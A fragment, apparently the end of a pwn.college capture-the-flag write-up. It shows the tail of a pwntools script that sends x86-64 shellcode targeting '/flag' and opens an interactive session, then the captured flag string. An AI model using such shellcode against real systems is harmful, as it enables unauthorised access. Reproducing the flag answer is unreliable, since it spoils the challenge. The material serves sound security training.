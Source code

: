 ```shell
xor edi, edi
mov al, 60
syscall

location:
  .string "/flag"
''')

p.sendline(shellcode)
p.interactive()
```


### Flag

> pwn.college{IMHcVubFF-vOK5JptNvvA7ogm1H.0FMyIDL4czN0czW}

---
